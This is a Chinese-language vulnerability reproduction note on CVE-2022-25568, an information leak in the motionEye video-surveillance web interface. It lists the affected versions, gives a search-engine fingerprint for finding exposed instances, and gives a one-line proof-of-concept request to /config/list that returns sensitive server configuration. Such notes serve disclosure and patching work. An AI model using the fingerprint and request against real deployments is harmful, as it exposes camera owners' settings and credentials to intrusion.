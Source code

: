 # MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

## 漏洞描述

*motionEye*是用Python写的motion的Web前端，它可以监视视频信号并检测运动。它可以与多种类型的摄像机配合使用,也可以与电影文件一起使用,从而使您可以分析录制的视频，其中存在一个信息泄漏漏洞，通过构造特定的URL即可获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>MotionEye <= v0.42.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>banner="motionEye"</a-checkbox></br>

## 漏洞复现

通过查看响应Server判断是否使用

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648370477879-da0555d4-84d5-4fed-88c2-2d42749521de.png)

验证POC

```php
/config/list
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648370501659-cad58608-0a9b-4697-87ad-86f79626b686.png)